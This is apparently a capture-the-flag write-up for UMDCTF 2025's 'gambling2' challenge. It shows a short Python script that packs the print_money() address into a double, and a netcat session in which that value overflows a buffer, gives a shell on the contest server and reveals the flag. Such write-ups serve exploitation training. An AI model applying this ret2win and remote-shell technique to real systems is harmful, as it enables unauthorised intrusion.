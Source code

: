 # Solution
Determine the position of `print_money()` function via gdb, try to make a buffer overflow & ret2win aligning with the position of `print_money()` to be able to execute shell in remote server and fetch the flag

```
import struct
# JUNK first, then address
packed = b'JUNK' + struct.pack('<I', 0x080492c0)
print(struct.unpack('<d', packed)[0])
```

Entering sequence of zeros and the value obtained from above script causes segfault and aligns positions into the `print_money()` function where we can use shell to obtain the flag.

```
┌──(kali㉿kali)-[~/Downloads/umdctf25/gambling2]
└─$ python run.py
4.867844891338545e-270

┌──(kali㉿kali)-[~/Downloads/umdctf25/gambling2]
└─$ nc challs.umdctf.io 31005
Enter your lucky numbers: 0 0 0 0 0 0 4.867844891338545e-270
Aww dang it!
ls
flag.txt
run
cat flag.txt
UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}
```

Flag: `UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}`



Solved by: jerit3787
